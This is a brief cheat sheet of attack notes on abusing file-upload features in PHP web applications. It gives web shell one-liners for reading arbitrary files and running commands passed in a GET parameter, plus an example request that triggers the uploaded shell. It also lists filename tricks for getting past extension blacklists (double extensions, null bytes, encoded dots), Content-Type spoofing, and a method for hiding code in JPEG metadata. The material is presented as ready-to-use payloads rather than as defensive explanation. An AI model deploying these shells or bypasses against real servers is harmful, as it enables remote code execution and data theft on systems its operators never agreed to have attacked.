 PHP Files one line code 

<?php echo file_get_contents('/path/to/target/file'); ?>        //user text/plain and application/x-httpd-php  when upload the php//
<?php echo system($_GET['command']); ?>
GET /example/exploit.php?command=id HTTP/1.1     //in place id enter the command//

conent type header:
application/x-www-form-url-encoded    //for sending the simple text, HTML//
multipart/form-data     //for sending large amount of data Image, pdf//
image/jpeg  
image/png     //images conetent types//
application/x-httpd-php   

blacklistfiles bypass::
.php
.php5
.shtml
.pHp
exploit.php.jpg
exploit.php.
exploit%2Ephp (url encode for .)
exploit.asp;.jpg
exploit.asp%00.jpg
exploit.p.phphp

File Conetents:
 JPEG files always begin with the bytes FF D8 FF in the burp response body
 ExifTool, it can be trivial to create a polyglot JPEG file containing malicious code within its metadata.

 

